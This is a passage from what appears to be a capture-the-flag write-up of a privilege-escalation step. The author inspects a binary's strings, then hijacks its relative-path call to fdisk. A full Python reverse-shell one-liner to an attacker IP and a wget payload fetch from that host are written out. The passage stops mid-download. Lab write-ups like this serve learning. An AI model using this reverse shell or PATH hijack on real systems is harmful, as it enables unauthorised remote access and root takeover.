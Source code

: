 Executed the binary to see what it is actually doing and seems like it is trying running some system checks, but to me it seems like it is running some system commands to get the result.
Did a strings command to know more about the executable.

{% highlight bash %}
...
popen() failed!
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
free -h
;*3$"
...
{% endhighlight %} 

So seems like the executable is using commands like `lshw` and `fdisk`, I am pretty confident that fdisk requires sudo perms to run.
{% highlight bash %}
theseus@ubuntu:~$ fdisk -l
fdisk -l
fdisk: cannot open /dev/loop0: Permission denied
fdisk: cannot open /dev/loop1: Permission denied
fdisk: cannot open /dev/loop2: Permission denied
fdisk: cannot open /dev/loop3: Permission denied
fdisk: cannot open /dev/loop4: Permission denied
fdisk: cannot open /dev/loop5: Permission denied
fdisk: cannot open /dev/loop6: Permission denied
fdisk: cannot open /dev/loop7: Permission denied
fdisk: cannot open /dev/sr0: Permission denied
fdisk: cannot open /dev/fd0: Permission denied
fdisk: cannot open /dev/sda: Permission denied
fdisk: cannot open /dev/loop8: Permission denied
fdisk: cannot open /dev/loop9: Permission denied
fdisk: cannot open /dev/loop10: Permission denied
fdisk: cannot open /dev/loop11: Permission denied
{% endhighlight %}

Tried it on box and yes, fdisk requires sudo permission to run this implies the script is running lshw and fdisk as sudo/privilaged permissions. Hoping the executable is using relative paths we me move to the `/tmp` directory and create a python3 reverse shell and name it `fdisk`.

{% highlight bash %}
theseus@ubuntu:/$ cd /tmp
cd /tmp
# I tried...
theseus@ubuntu:/tmp$ echo python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.169",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' > fdisk
# but this didn't worked for me due ",' signs so i created it on my local machine using vim and then uploaded it on the box by creating a python3 http server and `wget`-ing the fdisk file.
theseus@ubuntu:/tmp$ wget http://10.10.14.169:8000/fdisk
wget http://10.10.14.169:8000/fdisk
--2020-07-19 08:45:42--  http://10.10.14.169:8000/fdisk
Connecting to 10.10.14.169:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 230 [application/octet-stream]